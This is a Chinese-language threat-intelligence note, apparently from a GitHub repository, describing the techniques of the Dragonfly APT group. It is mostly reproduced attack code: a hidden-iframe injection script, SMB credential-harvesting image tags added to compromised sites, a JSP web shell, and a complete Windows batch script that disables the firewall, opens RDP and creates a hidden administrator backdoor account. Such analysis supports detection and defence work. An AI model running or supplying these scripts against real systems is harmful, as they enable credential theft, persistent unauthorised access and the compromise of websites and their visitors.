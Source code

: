 # Dragonfly

## 特征

1. 通过注入HTML代码使其网站重定向到托管的Lightsout网站.

```html
<script type="text/javascript">
var WWCPou=document.createElement("iframe");
WWCPou.height=1;
WWCPou.width=1;
WWCPou.style.visibility="hidden" ;
WWCPou.src="http://域名/wp-includes/pomo/dtsrc.php";
document.getElementsByTagName("head")[0].appendChild(WWCPou);
</script>
```

2. 使用水坑攻击，并修改被控制网站的网页代码以使用SMB从被控主机请求文件图标，其中修改了header.php文件来加载图片.

```html
<img src="file://IP地址/main_logo.png" style="height: 1px; width: 1px;" />
```

还会修改modernizr.js文件来加载图片，该JavaScript文件用来检测浏览器各个方面的合法JavaScript库.

```JavaScript
var i = document.createElement("img");
i.src = "file://IP地址/ame_icon.png";
i.width = 3;
i.height= 2;
```

3. 在后渗透阶段会使用脚本创建一个伪装成合法备份帐户的本地管理员帐户，脚本名为symantec_help.jsp，存储在C:\Program Files (x86)\Symantec\Symantec Endpoint Protection Manager\tomcat\webapps\ROOT\目录下.

```jsp
<% Runtime.getRuntime().exec("cmd /C \"" + System.getProperty("user.dir") + "\\..\\webapps\\ROOT\\<enu.cmd>\""); %>
```

enu.cmd脚本用于创建管理员账户、禁用主机防火墙和为RDP开启端口并全局访问，然后尝试将新建的用户添加至管理员组以获取权限.

```bash
netsh firewall set opmode disable  //关闭防火墙
netsh advfirewall set allprofiles state off  //关闭当前网络防火墙
reg add "HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List" /v 3389:TCP /t REG_SZ /d "3389:TCP:*:Enabled:Remote Desktop" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\DomainProfile\GloballyOpenPorts\List" /v 3389:TCP /t REG_SZ /d "3389:TCP:*:Enabled:Remote Desktop" /f
//开启远程桌面3389端口
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
//开启终端服务
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Licensing Core" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f
//多用户同时登录
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v EnableConcurrentSessions /t REG_DWORD /d 1 /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AllowMultipleTSSessions /t REG_DWORD /d 1 /f
//3389远程桌面多用户同时登录
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 100 /f
//限制同时登录最大实例
net user MS_BACKUP 密码 /add  //创建用户
net localgroup Administrators /add MS_BACKUP
net localgroup Administradores /add MS_BACKUP
net localgroup Amministratori /add MS_BACKUP
net localgroup Administratoren /add MS_BACKUP
net localgroup Administrateurs /add MS_BACKUP
net localgroup "Remote Desktop Users" /add MS_BACKUP
//添加用户到管理员组
net user MS_BACKUP /expires:never  //指定用户永不过期
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v MS_BACKUP /t REG_DWORD /d 0 /f
//将用户设置为隐藏用户
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system /v dontdisplaylastusername /t REG_DWORD /d 1 /f
//登录时不显示最后一个用户名
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
//禁用本地账户令牌过滤器
sc config termservice start = auto  //设置终端服务配置
net start termservice  //启用终端服务
```
